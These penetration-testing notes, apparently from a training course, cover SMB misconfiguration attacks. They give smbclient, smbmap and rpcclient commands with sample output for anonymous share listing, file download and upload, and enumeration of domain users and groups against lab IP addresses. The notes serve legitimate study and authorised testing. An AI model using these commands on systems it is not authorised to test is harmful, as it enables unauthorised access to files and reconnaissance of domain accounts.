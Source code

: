 
## 🔓 Misconfiguration Attacks

### 1. Anonymous Authentication (Null Sessions)

**Target**: SMB servers that don't require authentication

#### File Share Enumeration
```bash
# List shares with null session
smbclient -N -L //10.129.14.128

# Example output
Sharename       Type      Comment
-------         ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share  
notes           Disk      CheckIT
IPC$            IPC       IPC Service (DEVSM)
```

#### Permission Analysis
```bash
# Check permissions for each share
smbmap -H 10.129.14.128

# Example output
Disk                    Permissions     Comment
----                    -----------     -------
ADMIN$                  NO ACCESS       Remote Admin
C$                      NO ACCESS       Default share
IPC$                    READ ONLY       IPC Service (DEVSM)
notes                   READ, WRITE     CheckIT
```

#### Directory Browsing
```bash
# Browse directories recursively
smbmap -H 10.129.14.128 -r notes

# Download files
smbmap -H 10.129.14.128 --download "notes\note.txt"

# Upload files (if WRITE permissions)
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```

### 2. RPC Exploitation

#### Null Session RPC Access
```bash
# Connect with null session
rpcclient -U'%' 10.10.110.17

# Common enumeration commands
rpcclient $> enumdomusers     # List domain users
rpcclient $> enumdomgroups    # List domain groups  
rpcclient $> querydominfo     # Domain information
rpcclient $> lookupnames     # Name resolution
```
